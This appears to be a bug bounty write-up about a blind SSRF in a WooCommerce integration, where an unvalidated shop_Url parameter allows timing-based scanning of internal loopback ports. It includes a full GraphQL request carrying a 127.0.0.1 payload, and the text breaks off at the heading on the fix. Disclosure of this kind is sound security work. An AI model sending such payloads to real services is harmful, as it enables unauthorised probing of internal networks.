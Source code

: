 #### **Vulnerability Background**

The submitted shop_Url is used directly without any IP validation or hostname filtering. This allows an attacker to target loopback addresses such as 127.0.0.1, effectively tricking the server into making requests to internal services.

#### How Was the Port Scan Performed?

When the server initiates an HTTP request, an open port allows the connection to be established instantly, resulting in a fast response. If the port is closed, the server attempts to connect, waits, and eventually times out.

This behavior enables timing-based port scanning:

- shop_Url: 127.0.0.1:80 → fast response (port is open)
- shop_Url: 127.0.0.1:79 → delayed or no response (port is closed)

By measuring these differences in response time, it’s possible to infer which ports on the internal network are open.

#### HTTP Request

The following request is used to initiate the WooCommerce integration. When a target like 127.0.0.1:79 is provided, the server internally makes an HTTP request to that address.

```html
POST /api/graphql HTTP/2  
Host: redacted.com  
Cookie: session_id=<SESSION_ID>;  
User-Agent: k4yra  
Content-Type: application/json  
  
{  
  "operationName": "ConnectWoocommerce",  
  "variables": {  
    "shop_Url": "127.0.0.1:80"  
  },  
  "query": "mutation ConnectWoocommerce($shop_Url: String!) {\n  connectChannel(shop_Url: $shop_Url)\n}"  
}
```

In this example, when the shop_Url parameter is set to 127.0.0.1:79, the server behaves as follows:

- GET [http://127.0.0.1:79/wp-json/wc/v1](http://127.0.0.1:79/wp-json/wc/v1) → timeout (port is closed)
- GET [http://127.0.0.1:80/wp-json/wc/v1](http://127.0.0.1:80/wp-json/wc/v1) → fast response (port is open)

#### **Outcome**

- **Root Cause:** Direct access allowed without IP or port filtering
- **Impact:** Enabled port scanning on internal services
- **Result:** First bounty successfully earned

#### **Estimated Fix & Why It Was Insufficient?**
